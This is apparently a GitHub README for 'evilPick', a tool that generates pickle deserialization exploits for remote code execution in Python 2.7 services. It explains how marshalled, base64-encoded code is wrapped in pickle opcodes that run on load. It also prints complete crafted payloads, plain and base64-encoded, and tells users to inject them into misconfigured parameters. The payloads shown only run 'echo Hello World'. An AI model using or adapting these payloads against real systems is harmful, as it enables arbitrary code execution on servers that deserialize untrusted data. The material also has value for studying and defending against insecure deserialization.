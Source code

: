 # evilPick
An Exploit Crafter to achieve Pickle Deserialization Remote Code Execution ,
Just provide the wanted to execute code and you're on the go.

It aims to automate in a simple way Exploit Crafting from python2.7 code files.

Just launch it, copy the crafted exploit and inject it in misconfigured parameters.

#### Know How 
The main part of the exploit is written in  pickle machine language in order to invoke, on deserialization, the code provided by the user.

In particular the passed code is serialized with Marshall library, base64 encoded and put into the pickle machine code which
when deserialized will  :
- base64 decode the payload 
- marshal load the payload (in order to deserialize the code)
- statically build a function, inject the payload code in it
- call that function\n
Here we are, Remote Code Execution.

## options 
- -f --foo  file_name.py  
craft an exploit that, on deserialization, will execute the given python2.7 code   
- -e --encode base64/hex 
encode the crafted exploit in base64 or hex 
- -s --file  new_file
the crafted exploit is then saved in a file
- -d --dynamic
dynamically write your python code and hit CTRL-C in a new line to end the code


## Examples
example.py code :
```python
import os
os.system("echo Hello World")
```
running evilPick passing the example.py file :
```sh
$ python evilPick.py --foo example.py 
___________________________________________________________
[^] Do you want to encode it? ( base64 or hex,leave for unicode) :        
[*] Crafted Evil Packet: 

ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAABAAAAAgAAAEMAAABzHQAAAGQBAGQAAGwAAH0AAHwAAGoBAGQCAIMBAAFkAABTKAMAAABOaf////9zEAAAAGVjaG8gSGVsbG8gV29ybGQoAgAAAHQCAAAAb3N0BgAAAHN5c3RlbSgBAAAAUgAAAAAoAAAAACgAAAAAcwgAAAA8c3RyaW5nPnQDAAAAZm9vAQAAAHMEAAAAAAEMAQ=='
tRtRc__builtin__
globals
(tRS''
tR(tR.

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  y
[^] Insert exploit name: example_exploit
[*] Writing it in example_exploit

__________________________Job_Done_________________________
```
running evilPick in dynamic mode with encode base64 option :
```sh
$ python evilPick.py -d -e base64 
___________________________________________________________
[*] Write code till SIGINT, have fun!

|import os
|os.system("echo Hello World!")
|^C

___________________________________________________________
[*] Crafted Evil Packet: 

Y3R5cGVzCkZ1bmN0aW9uVHlwZQooY21hcnNoYWwKbG9hZHMKKGNiYXNlNjQKYjY0ZGVjb2RlCihTJ1l3QUFBQUFCQUFBQUFnQUFBRU1BQUFCekhRQUFBR1FCQUdRQUFHd0FBSDBBQUh3QUFHb0JBR1FDQUlNQkFBRmtBQUJUS0FNQUFBQk9hZi8vLy85ekVRQUFBR1ZqYUc4Z1NHVnNiRzhnVjI5eWJHUWhLQUlBQUFCMEFnQUFBRzl6ZEFZQUFBQnplWE4wWlcwb0FRQUFBRklBQUFBQUtBQUFBQUFvQUFBQUFITUlBQUFBUEhOMGNtbHVaejUwQXdBQUFHWnZid0VBQUFCekJBQUFBQUFCREFFPScKdFJ0UmNfX2J1aWx0aW5fXwpnbG9iYWxzCih0UlMnJwp0Uih0Ui4=

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  n
```
running evilPick in quick mode providing : example.py (source code), encode schema base64 and destination file 
```sh
python evilPick.py -f example.py -e base64 -s new_exploit
___________________________________________________________
[*] Crafted Evil Packet: 

Y3R5cGVzCkZ1bmN0aW9uVHlwZQooY21hcnNoYWwKbG9hZHMKKGNiYXNlNjQKYjY0ZGVjb2RlCihTJ1l3QUFBQUFCQUFBQUFnQUFBRU1BQUFCekhRQUFBR1FCQUdRQUFHd0FBSDBBQUh3QUFHb0JBR1FDQUlNQkFBRmtBQUJUS0FNQUFBQk9hZi8vLy85ekVBQUFBR1ZqYUc4Z1NHVnNiRzhnVjI5eWJHUW9BZ0FBQUhRQ0FBQUFiM04wQmdBQUFITjVjM1JsYlNnQkFBQUFVZ0FBQUFBb0FBQUFBQ2dBQUFBQWN3Z0FBQUE4YzNSeWFXNW5QblFEQUFBQVptOXZBUUFBQUhNRUFBQUFBQUVNQVE9PScKdFJ0UmNfX2J1aWx0aW5fXwpnbG9iYWxzCih0UlMnJwp0Uih0Ui4=

___________________________________________________________
[*] Writing it in new_exploit

__________________________Job_Done_________________________
```

# Author
Lacerenza Francesco - Systems and Networks Security.
twitter: [@lacerenza_fra](https://twitter.com/lacerenza_fra)
linkedin: [lacerenzafrancesco](https://www.linkedin.com/in/francesco-lacerenza/)
